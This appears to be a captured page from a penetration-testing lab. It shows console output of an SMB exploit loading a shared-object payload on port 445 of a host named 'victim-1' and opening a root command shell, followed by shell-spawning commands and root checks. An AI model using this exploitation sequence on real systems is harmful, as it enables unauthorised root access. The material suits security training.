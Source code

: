 ```
[*] 192.124.187.3:445 - Loading the payload from server-side path /tmp/CenBRbGr.so using \\PIPE\/tmp/CenBRbGr.so...
[-] 192.124.187.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.124.187.3:445 - Loading the payload from server-side path /tmp/CenBRbGr.so using /tmp/CenBRbGr.so...
[+] 192.124.187.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.124.187.2:42215 -> 192.124.187.3:445) at 2023-06-25 11:46:33 +0000
```

```
ls
pwd
/tmp
```

```
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# exit
exit
exit
```

```
cat /etc/shells
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```

```
/bin/sh -i
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
```

```
/bin/dash -i
/bin/dash: 0: can't access tty; job control turned off
# whoami
root
# exit
```

```
/bin/rbash -i
rbash: cannot set terminal process group (8): Inappropriate ioctl for device
rbash: no job control in this shell
root@victim-1:/tmp# pwd         
pwd
/tmp
root@victim-1:/tmp# exit
exit
exit
```
